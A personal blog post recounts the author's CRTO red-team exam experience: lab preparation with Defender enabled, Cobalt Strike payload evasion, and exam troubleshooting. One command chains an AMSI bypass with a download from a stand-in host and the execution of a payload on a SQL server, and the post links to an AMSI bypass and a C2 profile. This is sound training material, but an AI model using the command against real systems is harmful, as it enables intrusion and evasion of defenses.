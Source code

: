 
---
title: the CRTO journey
date: 2024-04-19 13:01:00 +0100
categories: [personal]
tags: [education,hacking,CRTO]     # TAG names should always be lowercase
comments: true
---

# Intro

So I finally did it, I managed the CRTO exam while also feeling that I actually learned something which will stay with me  for some time. This is something which is different for me when comparing to SANS courses where a lot of them are based around memory recognition during the exam, or to have a good enough indexing system of the course material etc.

CRTO (and to some degree I guess I would count OSCP the same) rely so much more on understanding the technical concepts, and then have enough know-how and practical knowledge and how to apply them to tooling.

CRTO as such is a course based on red team emulation, based around the Cobalt Strike platform and some surrounding tools which have a good interoperability such as Sharp-tools, Rubeus, Mimikatz etc. 

The course leads you around the usage and basics of Cobalt Strike, how to use it to get a foothold and persistence in a target Windows environment, how to steal credential material to impersonate identities of interest and leverage those identities to pwn new machines and identities, all the way to domain admin or a admin access to a DC.

It's thorough, with some handholding in some places, and not in some other places where it's needed. Altogether, I'd say that it might be seen as introductory (for some) but for me who failed the OSCP 5 years ago and who have only worked with blueteaming activites, the level in this course was just about right. The support is good, done via Discord first and foremost, and the developer Daniel is active and supportive. The only gripe I have is that as red activity courses come, they all seem to have problems with the "try harder"-mentality (fucking hate it).

It's not very evident within the CRTO discord but might creep up if the question you pose is shallow, not defined enough or you don't really show what you've tried.

Conversations such as;

- "I've done X, why don't I get Y result?"
- "Why would you get Y result?"

These kinds of conversations irk me, and I don't think I'm the only one although I believe that my exact problems with it are probably not the same as others. Anyway, these are a minimum and most of the time are not an issue, or too much of a deal.

# The prep

So I started the course during summer 2023 and studied intently for a month maybe during office hours with a colleague doing the course at the same time. Some time during autumn, I had gone through some 85% of the course, sadly some parts were unavailable due to me running on an old version of the lab environment.

If you take the course, you need to stay updated on changes in the lab and you need to check if there is a need to update the lab to get access to a new feature or a bug or feature fix. The problem is of course if you let the lab environment update (it's done manually) it reverts and gets fully redeployed, removing all customization and state and progress you've made.

I had a tool missing (couldn't do the tool related modules) and a couple of bugs which needed fixing during my run, so yes, I reverted the lab fully...BUT...I did it after the first run through so I could combine it with turning on Defender in the lab environment. And turning on Defender and have full AMSI protection on the machines in the lab is where the real game is at.

I then started to redo the entire lab environment with all modules with Defender on. There was a lot of background research in the beginning, getting the AMSI patches correct, the malleable C2 profile correct and such things as;

* understanding that you can actually chain an AMSI-bypass via powershell-script
* to be able to load tooling in the beacon via a powershell-script
* to be able to load a powershell payload or file payload.

Case in point would be that you need to load an AMSI-bypass to load PowerupSQL (which AMSI will block), so that you can enable xp_cmdshell and run a payload on a SQL-server like so;

```
powerpick iex (iwr http://rportfwd-host:8080/amsi -usebasicparsing);iex (iwr http://rportfwd-host:8080/powerview -usebasicparsing); Invoke-SQLOSCmd -Instance "db.example.domain,1433" -Command "powershell iwr 'rportfwd-host:8080/smb' -outfile c:\windows\tasks\smb.exe ; start-process c:\windows\tasks\smb.exe"
 ```

My sample [c2 profile](https://raw.githubusercontent.com/kaywoz/redstuff/main/cobalstrike/webbug.profile) is here and the [AMSI](https://raw.githubusercontent.com/kaywoz/redstuff/main/powershell/amsibypass.ps1) used is straight from the course although I tried some others freely available on Gitbhub etc.

The difficulty level increased to say the least. A lot of the time was spent getting these kinds of things right, a lot of backsearching the discord for how or if a tool works with Defender on, how to change the payload to not get detected etc. Safe to say, going through the material again leads you toward the need to modify you own processes in a very natural way.

Finally during spring 2024 and an intense 2 week schedule between work assignments made it possible for me to finalize the labs with Defender enabled and processes for persistence, recon, creds theft, privesc and lateral movement. I made it a huge thing to have "ready to deploy" cmdline samples etc and something of a cheatsheet although you can probably get by with the abundance of cheatsheets for CRTO etc on Github.

# The exam

The exam was scheduled for an early Monday morning, and the main focus during the morning was to build payloads clearing Threatcheck. Even though I've done it so many times during the course, I ran into snags and needed to double and triplecheck what I had actually done.

That I breathed a sigh of relief when I got my first beacon is an understatement. ![stagerbeacon](assets/images/2024-04-20-the-crto-journey/1.png)

But then when the stager downloaded the second payload, and it was detected and blocked and you realise that you've built something wrong in your payloads is not a fun feeling. Needing to redo it and troubleshoot was not a great place to be mentally.

The problem more or less layed in me being stressed and overlooking what I was doing, and how and what I was copy-pasting. Needless to say, I burned some 6 hours preparing my c2profile, my payloads etc just to get the clean result ![threatcheck](assets/images/2024-04-20-the-crto-journey/6.png)

The advice would be to relax, breathe, and fall back on your experience and not rush into things.

Well, onwards?

Yes, but not without issues (cue the weirdness). The first machine was fairly straight forward (I thought) and the road to privesc was textbook. But it did not work. None of the payloads did. So much more burned time. I finally had to resolve to other means and payloads outside of the course to get elevated access. Good thing I have sysadmin background I guess. (can't be more open about this issue for obvious reasons, I just hope you wont run into it.)

Alright, privesc on machine1, and... the flag was not there... literally. ![missing1](assets/images/2024-04-20-the-crto-journey/3.png)

No, matter. I'll pop a question to the support team an move on. I continued to compromise machine2 and... the flag was not there either... ![missing2](assets/images/2024-04-20-the-crto-journey/4.png)

And that was the first 24 hours. It sucked. I sucked and all was burning around me, lol.

Cue some ZZZs and a chug of M0nster later and I had high hopes. Daniel (the course developer) had responded to my requests and redeployed the flags to the machines. I could extract them finally and I at least felt like I had made some progress and not just managed hurdles.

Machine3 was easy-ish as long as you knew what the path was, and it was a lot more fun due to how to move laterally from it to Machine4 which I basically compromised without tools (sysadmin experience booyah.) 

I was on a roll. And then machine5 hit me in the face on the way out with a cocktail which looked good but tasted like shit. Getting lowpriv access was fairly easy and fun, but then the obvious way to privesc... just... did... not.. work

Typical "works on my machine"-shenanigans...
![worksonmymachine](assets/images/2024-04-20-the-crto-journey/2.png)

but not on the target...
![nah](assets/images/2024-04-20-the-crto-journey/7.png)

After a long troubleshooting session I just reconconciled and moved to a different export which of course worked in like 5 minutes..gah

Moving to the final machine for me and compromising went smoothly (I thought)

![done?](assets/images/2024-04-20-the-crto-journey/12.png) 

But machine6 had a final FU.
![fusaysthemachine](assets/images/2024-04-20-the-crto-journey/5.png)

I compromised the DC, had (momentary) access, was not able to jump, was not able to list anything in the filesystem as I lost the access momements later. Like wtf?! All in the span of some 15 seconds.

I redid the whole thing but no, I could not get "long" access to the machine so I simply resorted to the boring way to do it.
![itisiwhosaysfutothemachine](assets/images/2024-04-20-the-crto-journey/8.png) 

But hey, it worked! And I finally had 6 flags and enough for the certificate! 
![done](assets/images/2024-04-20-the-crto-journey/11.png) 

My list looked something like this, quite a lot of beacons!
![beacons](assets/images/2024-04-20-the-crto-journey/9.png) 

and the map looked like this!
![done2](assets/images/2024-04-20-the-crto-journey/10.png) 


# Closing thoughts

Was it fun? YES.
Was it good? YES.
Was it irritating? YES.
Did I hate my life? Hell YES.

In retrospect, I would recommend the course to any blueteamers who are more inclined to move to purple or red teaming activites for a deeper understanding of what we are doing besides managing SIEMs and building SOAR policies.

It's a deep course, not withough technical issues, but I believe a lot of us would benefit from it and it would make the community better if we had more diverse skills. Thx to Daniel et al for the course.
